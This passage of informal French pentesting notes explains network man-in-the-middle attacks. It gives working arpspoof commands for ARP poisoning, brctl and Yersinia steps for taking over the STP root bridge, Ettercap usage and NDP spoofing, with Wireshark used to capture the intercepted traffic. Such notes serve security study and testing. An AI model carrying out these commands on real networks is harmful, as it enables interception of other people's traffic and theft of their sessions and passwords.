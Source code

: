 				- Lancer l'arp poisoning avec arpspoof :
					- `sudo arpspoof -i eth0 -t target_addr routeur_addr` Pour spécifier à la target que l'adresse du routeur combinera avec notre adresse mac.
					- `sudo arpspoof -i eth0 -t routeur_addr target_addr` Pour spécifier au routeur que l'adresse de la target correspond à notre adresse mac.
				- Normalement, si tu peux, quand tu fais un arp -a sur la machine cible, tu verras l'adresse du routeur qui va correspondre à l'adresse mac de la machine attaquante.
				- Pourquoi ca marche ? En fait quand on envoie des paquets, on regarde l'adresse mac sans se soucier de l'adresse ip. Donc la cible et le routeur envoie tout vers l'attaquant. La machine attaquante va donc regarder vers quelle adresse ip ce paquet était destiné et va donc air en conséquence en le gardant ou en le renvoyant.
				- Pour analyser le trafic, on peut donc utiliser wireshark.
				- Faut faire gaffe au Dynamic ARP Inspection (DAI).
		- Race Condition Request :
                    
		- Packet Sniffing
        - Data Interception
        - Connection Hijacking
        - VoIP tapping
        - Connection Resetting
        - Stealing Password

- -**SSL Stripping :** Un attaquant intercepte le trafic chiffré SSL/TLS, le déchiffre, puis le renvoie en clair, compromettant la confidentialité des données.
- **Session Token Hijacking :** Un attaquant vole ou intercepte les jetons d'authentification ou d'autorisation utilisés dans les applications Web, permettant une prise de contrôle de session.
    
- **Man-in-the-Middle Attacks :** Diverses formes d'attaques où un attaquant intercepte et manipule la communication entre deux parties sans leur consentement.
    
    - ARP Spoofing (voir un peu plus haut)
    - STP MitM :
        - Manuel :
            - Bon bah là faut un réseau avec plusieurs switch et STP enabled. Tu peux le voir en faisant brctl show.
            - On créer un bridge (switch virtuel) et pour chaque switch légitime qu'il y a, on créer une interface pour pouvoir intercepter le trafic entre le routeur et le switch :
                -  `brctl addbr bridge_name`
                - `brctl addif bridge_name eth1`
                - `brctl addif bridge_name eth2`
                - ...
            - On active STP et le Bridge :
                - `brctl stp bridge_name on`
                - `ifconfig bridge_name up`
            - Quand tu fais brctl showstp bridge_name, tu vois ton BID. On va le changer pour pouvoir passer en root bridge :
                - `brctl setbridgeprio bridge_name 5` Met ce que tu veux sur le 5 mais faut qu'il soit plus petit que celui du vrai switch root.
            - Quand tu refais `brctl showstp bridge_name`, tu vois le BID qui change et le designated root aussi et donc on a gagné le MitM. Y'a plus qu'à lancer wireshark.
        - Yersinia :
            - `sudo yersinia -G`
            - -> stp
            - -> launch attacks
            - -> Claiming Root Role (coche pas la case DoS enfin sauf si tu veux)
        - Ettercap :
            - Lance Ettercap, t'as même pas besoin de lancer un ARP Spoofing, tu lance juste le plugin stp_mangler
    - NDP MitM :
        - Étant donné que rien n'empêche qu'un attaquant d'essayer d'envoyer un Neighbor Advertisement plus rapidement que le routeur, l'attaque est faisable et simple.
        - On peut la faire manuellement assez simplement avec scapy mais ça prend de la place donc check : [https://packetlife.net/blog/2009/feb/2/ipv6-neighbor-spoofing/](https://packetlife.net/blog/2009/feb/2/ipv6-neighbor-spoofing/ "https://packetlife.net/blog/2009/feb/2/ipv6-neighbor-spoofing/")
